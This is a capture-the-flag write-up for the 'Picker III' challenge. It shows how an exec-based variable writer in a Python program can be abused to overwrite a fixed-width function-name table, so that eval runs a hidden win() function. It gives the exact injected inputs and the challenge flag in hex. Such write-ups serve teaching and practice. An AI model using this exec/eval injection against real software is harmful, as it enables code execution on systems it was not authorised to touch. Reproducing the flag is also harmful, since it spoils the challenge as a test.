



# **Picker III**

This challange is same as [Picker I](../16/) & [Picker II](../17/)

Short summary: the program stores a fixed-width table of allowed function **names** in the string `func_table` (4 entries, 32 bytes each). The UI exposes a `write_variable` feature that uses `exec(...)` and allows expressions such as `func_table[32:]`. By rewriting the first 32-byte slot to contain `win` (padded with spaces) while preserving the table length, `get_func(0)` returns `"win"` and the program does `eval('win()')`. That calls the `win()` function and prints the flag (in hex).

---

# Challenge description / goal

You get an interactive prompt with these high-level features:

* A fixed-size string `func_table` holds 4 function names, each 32 bytes.
* `call_func(n)` finds the `n`th name in `func_table` and executes `eval(name+'()')`.
* `write_variable()` lets you set a global variable via `exec('global '+var_name+'; '+var_name+' = '+value)`.
* `filter_value()` forbids `;`, `(`, `)` in the `value`, but allows slicing (`[]`) and concatenation (`+`), quotes, spaces, etc.
* Your objective: cause the program to run `win()` (which prints the flag in hex).

---

# Vulnerability (why exploit works)

1. `func_table` entries are fixed-width 32-byte slots. `get_func(n)` finds the first space in the slot and returns the substring before it.
2. `write_variable()` uses `exec` on user-supplied expressions and only blocks `;` and parentheses. That still allows expressions like `'win' + ' ' * 29 + func_table[32:]`.
3. By assigning that expression to `func_table`, you replace the first slot with `'win'` followed by spaces and re-append the remainder of the table (`func_table[32:]`), preserving total length so `check_table()` still passes.
4. `call_func(0)` then returns `'win'` and executes `eval('win()')`.

---

# Step-by-step exploit (exact inputs)

1. Choose the **write variable** entry from the menu. The printed table shows:



So enter:

```
==> 3
```

2. When prompted for variable name, type:

```
Please enter variable name to write: func_table
```

`func_table` is a valid identifier 

```py
  func_table = \
'''\
print_table                     \
read_variable                   \
write_variable                  \
getRandomNumber                 \
'''
```

3. For the new value, enter exactly:

```
Please enter new value of variable: 'win' + ' ' * 29 + func_table[32:]
```

Explanation:

* `'win' + ' ' * 29` → a 32-char slot: `'win'` + 29 spaces (3 + 29 = 32).
* `func_table[32:]` → append the rest of the table (entries 2..4), preserving total length (128).
* The expression contains no `; ( )` so it passes `filter_value()`.

4. Now call the first entry:

```
==> 1
```

This runs `call_func(0)` → `get_func(0)` → returns `'win'` → `eval('win()')` → executes `win()`.

5. Expected output (on real CTF remote where `flag.txt` exists):



(Flag bytes in hex). Locally, if `flag.txt` is absent you’ll see a `FileNotFoundError`.

---

# Why `func_table[32:]` is used

* `func_table[32:]` slices the string starting at byte index 32 to the end — i.e. entries 2..4.
* That allows you to *replace only the first slot* while keeping the rest unchanged.

Visual: before

```
[0..31]   print_table + padding
[32..63]  read_variable + padding
[64..95]  write_variable + padding
[96..127] getRandomNumber + padding
```

After assignment `'win' + ' ' * 29 + func_table[32:]`:

```
[0..31]   win + padding
[32..63]  read_variable + padding  (unchanged)
[64..95]  write_variable + padding (unchanged)
[96..127] getRandomNumber + padding(unchanged)
```

---

# Converting the printed hex flag to ASCII


use this quick Python one-liner locally or in a REPL to convert:

```python
hexs = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x32 0x32 0x36 0x64 0x64 0x32 0x38 0x35 0x7d"
print(''.join(chr(int(x,16)) for x in hexs.split()))
```

